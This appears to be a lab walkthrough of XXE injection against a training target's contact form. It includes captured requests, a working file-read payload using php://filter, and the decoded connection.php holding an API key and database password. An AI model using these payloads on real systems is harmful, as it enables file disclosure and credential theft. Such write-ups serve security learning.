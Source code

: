 # Exploiting XXE to Extract Sensitive Information – `connection.php`

### Target: `http://10.129.64.249/index.php`
Vulnerability Type: XML External Entity (XXE) Injection
Objective: Read the contents of connection.php and extract the api_key.

## 1. Initial Discovery
The provided contact form is 
![image](https://github.com/user-attachments/assets/0d43c1bb-78e3-4026-bbe5-879a31fd237d)

After submitting data via the Contact Form, I intercepted the request using Burp Suite and observed the following:
```bash
POST /submitDetails.php HTTP/1.1
Host: 10.129.64.249
Content-Type: text/plain;charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<root>
  <name>Manoj</name>
  <tel>0411639525</tel>
  <email>themanojgh@gmail.com</email>
  <message>thank you</message>
</root>
```
The request body is in XML format, making it a potential target for XXE. Notably, the value inside the <email> tag is reflected in the server's HTTP response, which makes it a suitable injection point for XXE payloads.

## 2. XXE Payload Test
To test for XXE, I inserted an XML DTD and referenced an entity inside the `<email>` field:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
<root>
  <name>Manoj</name>
  <tel>0411639525</tel>
  <email>&company;</email>
  <message>thank you</message>
</root>
```
The response echoed back Inlane Freight, confirming that the server parses and expands external XML entities — the application is vulnerable to XXE injection.
![Screenshot 2025-04-24 130856](https://github.com/user-attachments/assets/38c3fd89-e079-45f8-bd7e-9537b17d981e)


## 3. Exploiting XXE for File Disclosure
Using the confirmed vulnerability, I crafted a payload to read the contents of the connection.php file using the `php://filter` wrapper to `base64-encode` the file output:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
  <name>Manoj</name>
  <tel>0411639525</tel>
  <email>&company;</email>
  <message>thank you</message>
</root>
```
![Screenshot 2025-04-24 131619](https://github.com/user-attachments/assets/2a4254f9-07c4-48c4-90d6-e739c53182d9)

The server responded with the base64-encoded contents of the connection.php file.

## 4. Decoding the Output
The output from the server was:
```bash
PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K
Decoded using base64, the PHP source revealed:
```
```bash
<?php

$api_key = "UTM1NjM0MmRjJ2dmcTIZND0wMXJnZXdmc2RmCg";

try {
  $conn = pg_connect("host=localhost port=5432 dbname=users user=postgres password=iUer^vd(e1Pl9)");
}

catch (exception $e) {
  echo $e->getMessage();
}

?>
```
## ✅ Extracted API Key:

UTM1NjM0MmRjJ2dmcTIZND0wMXJnZXdmc2RmCg

## Conclusion
This test demonstrated a classic XXE (XML External Entity) vulnerability in the contact form of the web application. The lack of input validation and the use of outdated XML parsers allowed the injection of external entities, leading to local file disclosure and the extraction of sensitive credentials from server-side configuration files.
